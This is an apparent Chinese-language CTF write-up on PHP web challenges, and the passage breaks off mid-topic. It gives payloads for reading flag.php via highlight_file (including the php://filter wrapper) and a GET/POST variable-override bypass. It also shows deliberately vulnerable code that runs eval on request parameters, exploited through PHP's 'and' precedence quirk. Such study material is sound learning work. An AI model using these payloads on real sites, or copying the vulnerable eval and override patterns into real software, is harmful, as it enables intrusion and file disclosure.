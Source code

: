 > Payload：
>
> 下面方式在highlight_file中均等效于flag.php，也即本题的payload
>
> /var/www/html/flag.php              绝对路径
> ./flag.php                          相对路径
> php://filter/resource=flag.php      php伪协议             





## 三目运算符与变量覆盖

首先看看下面这样一个代码：

```php
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
```

根据第一条可知，如果get传了一个值，那么就可以用post覆盖get中的值。
中间两行意义不大。
最后一行是,如果get传了一个`HTTP_FLAG=flag`就输出`flag`否则显示`index.php`源码。
所以我们`get`随便传一个，然后`post`传` HTTP_FLAG=flag`即可

```
`payload get：1=1 post：HTTP_FLAG=flag`
```



## and与&&的区别+反射类ReflectionClass的使用

```php
$getflag = new getflag();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('getflag')$v3");
        }
    }    
}
```

其实主要还是通过这道题学习了php的反射以及and的一些小特性

下面首先是讲`and与$$`,所以只需要保证第一个为`true`即可

```php
<?php
$a=true and false and false;
var_dump($a);  //返回true
$a=true && false && false;
var_dump($a);  //返回false
```
